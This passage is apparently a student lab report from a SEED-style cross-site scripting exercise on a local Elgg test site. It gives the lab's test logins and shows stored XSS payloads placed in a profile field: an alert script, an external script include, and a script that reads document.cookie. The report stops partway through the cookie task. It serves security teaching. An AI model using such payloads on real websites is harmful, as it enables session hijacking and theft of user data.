 ### 0.4 Restart the service

We executed the command below on **attacker** to make our configuration work.
```
$ sudo service apache2 restart
```
PS. we found that the command `sudo service apache2 start` in task document does **not** work. 

<div style="page-break-after: always;"></div>

## TASK01: Malicious Message to Display an Alert Window

### 1.1 Insert malicious codes directly

We logged in the website *http://www.xsslabelgg.com* as Samy (from the victim browser). We used the username and password in our task document, which are also listed below .
>  UserName: samy
>  Password: seedsamy

As image below shows, We modified the content of his **Brief description** to a simple javascript code section, `<script>alert("XSS");</script>`. We also made its public to everyone, so that it could be insert to the webpage when someone access Samy's profile.  

<img style="width:70%; padding-left:15%; align-self:centre;" src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_a9c14d55f1c715b89340a87e4a7b5175.png"/>


After that, we logged in as Alice to access Samy's profile.
>  UserName: alice
>  Password: seedalice

There was a popped-out dialogue box after opening the webpage, which actually proven there is a XSS vulnerability here.  

<img style="width:60%; padding-left:20%; align-self:centre;" src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_92f36c2a7ddb0c849eeaf5e69745a000.png"/>



### 1.2 Import malicious codes by a link
This case we modified the content of Samy's **Brief Description** as the code section below.  
```javascript
<script type="text/javascript"  
    src="http://www.example.com/xss/task01/myscripts.js">
</script>
```
As the image below shows, the imported script also worked.  

<img style="width:75%; padding-left:12.5%; align-self:centre;" src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_9af32eb5a53945574188dd9a44636f6b.png"/>

<div style="page-break-after: always;"></div>

## TASK02: Posting a Malicious Message to Display 

We directly modified the code in the "*myscripts.js*" to the code below. (We also removed all cached data)
```javascript
alert(document.cookie);
```
As the image below shows it successfully accessed data in the cookie of the website.  

